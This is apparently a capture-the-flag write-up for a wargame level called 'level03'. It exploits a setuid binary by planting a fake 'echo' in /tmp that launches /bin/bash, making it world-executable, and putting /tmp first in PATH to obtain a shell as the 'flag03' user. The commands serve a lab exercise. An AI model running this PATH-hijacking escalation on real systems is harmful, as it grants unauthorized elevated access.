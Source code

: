 https://www.cgsecurity.org/Articles/SecProg/Art1/index-fr.html

https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code

https://askubuntu.com/questions/857066/meaning-of-the-access-permissions-rws-and-root-root-of-usr-bin-sudo

File has a weird CHMOD.

Security threat, can replace env variable

`echo "/bin/bash" > /tmp/echo`

Create a fake echo that will execute /bin/bash, that is a new connection to our shell with the current user's permission

`chmod 777 /tmp/echo`

otherwise the file is `-rw-rw-r-- 1 level03 level03 10 Sep 22 02:19 /tmp/echo` and flag03 can't execute it


`export PATH=/tmp:$PATH`

Do command `env` and see path went from:

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games

to 

PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games

So when calling env, the shell is going to read PATH variable to see where is the file to execute and will execute the first it finds, here our fake echo in tmp

then execute script `./level03`

You are now flag3 because you "opened" a new shell with the rights of flag03
